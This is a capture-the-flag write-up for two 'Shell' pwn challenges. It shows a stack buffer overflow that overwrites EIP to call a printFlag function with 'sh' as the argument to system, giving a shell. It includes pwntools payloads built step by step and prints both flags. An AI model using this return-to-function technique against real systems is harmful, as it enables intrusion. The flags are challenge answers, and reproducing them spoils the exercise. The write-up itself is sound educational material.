

> **Shell Medium**
> 
> Run a command and get the flag.
> 
> ASLR is off on the server.
---
> **Shell Hard**
> 
> Maybe changing the code isnt the right direction.
> 
> Note: The binary from shell has not changed
---

The functions here are exactly the same as in the task [PWN - Never Called](../PWN%20-%20Never%20Called/PWN%20-%20Never%20Called%20(Easy).md), but only the printFlag function is different, it now takes the *command* parameter and calls *system*.


Offset remains the same - 62, the address of the printFlag function is 0x5655628b.


Now let's try the exploit from **Never Called**, but change the payload itself to the next one to get a better understanding of what will happen.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapa',
    p32(0x5655628b),
)
```

And in EDB let's see what happens in the printFlag function. We set breakpoint at address 0x5655628b. Our payload is written into the stack and output to the terminal. And the same thing happens before calling *system*.


We see that the last to be written from our line is 'aala'. Then we write *'sh'* instead and after it and the flaw byte to overwrite the EIP register. And add another 20 characters and see what happens to the program.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'aaaabaaacaaadaaaeaaa',
)
```

So, the program crashed when trying to address **0x61616162 (baaa)**. We get offset - 4.


So after overwriting the EIP register we need to add 4 bytes and the memory address of the 'sh' line. Our command has the address **0x5655a5da**.



Now let's rewrite the payload and run our exploit.

```python
payload = flat(
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka',
    b'sh\x00',
    b'aaamaaanaaaoaaapp',
    p32(0x5655628b),
    b'B' * 4,
    p32(0x5655a5da)
)
```

Run the exploit command and gain control over the task container.

```sh
python3 shell.py DEBUG
```


I never understood the difference between the tasks, I was just lucky that the exploit fit both tasks! Judging by the description of the Hard task, it was possible to solve the Medium task by changing the code.

---
> [**Full exploit**](shell.py)
> 
> Flag Medium: **bucket{5h331_4cc355_d8ebd45cc}**
> 
> Flag Hard: **bucket{41w4y5_check_h1dd3n_f2f31ec5}**
